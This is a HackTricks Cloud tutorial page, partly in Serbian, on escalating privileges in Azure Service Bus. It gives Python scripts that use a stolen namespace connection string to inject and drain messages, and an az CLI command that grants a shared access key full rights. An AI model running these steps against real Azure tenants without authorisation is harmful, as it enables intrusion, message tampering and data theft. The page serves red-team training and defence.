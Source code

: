 # Az - Service Bus Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Service Bus

Za više informacija proverite:

{% content-ref url="../az-services/az-servicebus-enum.md" %}
[az-servicebus-enum.md](../az-services/az-servicebus-enum.md)
{% endcontent-ref %}


### Send Messages. Action: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` OR `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`

Možete preuzeti `PrimaryConnectionString`, koji deluje kao akreditiv za Service Bus namespace. Sa ovom konekcijom, možete se potpuno autentifikovati kao Service Bus namespace, omogućavajući vam da šaljete poruke bilo kojoj redu ili temi i potencijalno komunicirate sa sistemom na načine koji bi mogli ometati operacije, predstavljati validne korisnike ili ubrizgavati zlonamerne podatke u tok poruka.

{% code overflow="wrap" %}
```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient
from azure.servicebus import ServiceBusMessage

# Constants
NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"

# Function to send a single message to a Service Bus topic
async def send_individual_message(publisher):
# Prepare a single message with updated content
single_message = ServiceBusMessage("Hacktricks-Training: Single Item")
# Send the message to the topic
await publisher.send_messages(single_message)
print("Sent a single message containing 'Hacktricks-Training'")

# Function to send multiple messages to a Service Bus topic
async def send_multiple_messages(publisher):
# Generate a collection of messages with updated content
message_list = [ServiceBusMessage(f"Hacktricks-Training: Item {i+1} in list") for i in range(5)]
# Send the entire collection of messages to the topic
await publisher.send_messages(message_list)
print("Sent a list of 5 messages containing 'Hacktricks-Training'")

# Function to send a grouped batch of messages to a Service Bus topic
async def send_grouped_messages(publisher):
# Send a grouped batch of messages with updated content
async with publisher:
grouped_message_batch = await publisher.create_message_batch()
for i in range(10):
try:
# Append a message to the batch with updated content
grouped_message_batch.add_message(ServiceBusMessage(f"Hacktricks-Training: Item {i+1}"))
except ValueError:
# If batch reaches its size limit, handle by creating another batch
break
# Dispatch the batch of messages to the topic
await publisher.send_messages(grouped_message_batch)
print("Sent a batch of 10 messages containing 'Hacktricks-Training'")

# Main function to execute all tasks
async def execute():
# Instantiate the Service Bus client with the connection string
async with ServiceBusClient.from_connection_string(
conn_str=NAMESPACE_CONNECTION_STR,
logging_enable=True) as sb_client:
# Create a topic sender for dispatching messages to the topic
publisher = sb_client.get_topic_sender(topic_name=TOPIC_NAME)
async with publisher:
# Send a single message
await send_individual_message(publisher)
# Send multiple messages
await send_multiple_messages(publisher)
# Send a batch of messages
await send_grouped_messages(publisher)

# Run the asynchronous execution
asyncio.run(execute())
print("Messages Sent")
print("----------------------------")

```
{% endcode %}

### Primanje poruka. Akcija: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` ILI `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`
Možete preuzeti PrimaryConnectionString, koji služi kao akreditiv za Service Bus namespace. Koristeći ovaj konekcioni string, možete primati poruke iz bilo koje queue ili subscription unutar namespace-a, omogućavajući pristup potencijalno osetljivim ili kritičnim podacima, omogućavajući exfiltraciju podataka ili ometajući obradu poruka i radne tokove aplikacija.

{% code overflow="wrap" %}
```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient

NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"
SUBSCRIPTION_NAME = "<TOPIC_SUBSCRIPTION_NAME>" #Topic Subscription

# Function to receive and process messages from a Service Bus subscription
async def receive_and_process_messages():
# Create a Service Bus client using the connection string
async with ServiceBusClient.from_connection_string(
conn_str=NAMESPACE_CONNECTION_STR,
logging_enable=True) as servicebus_client:

# Get the Subscription Receiver object for the specified topic and subscription
receiver = servicebus_client.get_subscription_receiver(
topic_name=TOPIC_NAME,
subscription_name=SUBSCRIPTION_NAME,
max_wait_time=5
)

async with receiver:
# Receive messages with a defined maximum wait time and count
received_msgs = await receiver.receive_messages(
max_wait_time=5,
max_message_count=20
)
for msg in received_msgs:
print("Received: " + str(msg))
# Complete the message to remove it from the subscription
await receiver.complete_message(msg)

# Run the asynchronous message processing function
asyncio.run(receive_and_process_messages())
print("Message Receiving Completed")
print("----------------------------")
```
### `Microsoft.ServiceBus/namespaces/authorizationRules/write` & `Microsoft.ServiceBus/namespaces/authorizationRules/write`
Ako imate ove dozvole, možete povećati privilegije čitanjem ili kreiranjem zajedničkih pristupnih ključeva. Ovi ključevi omogućavaju potpunu kontrolu nad Service Bus imenom prostora, uključujući upravljanje redovima, temama i slanje/primanje poruka, potencijalno zaobilazeći kontrole pristupa zasnovane na rolama (RBAC).
```bash
az servicebus namespace authorization-rule update \
--resource-group <MyResourceGroup> \
--namespace-name <MyNamespace> \
--name RootManageSharedAccessKey \
--rights Manage Listen Send
```
## References

* https://learn.microsoft.com/en-us/azure/storage/queues/storage-powershell-how-to-use-queues
* https://learn.microsoft.com/en-us/rest/api/storageservices/queue-service-rest-api
* https://learn.microsoft.com/en-us/azure/storage/queues/queues-auth-abac-attributes
* https://learn.microsoft.com/en-us/azure/service-bus-messaging/service-bus-python-how-to-use-topics-subscriptions?tabs=passwordless
* https://learn.microsoft.com/en-us/azure/role-based-access-control/permissions/integration#microsoftservicebus

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.
</details>
{% endhint %}
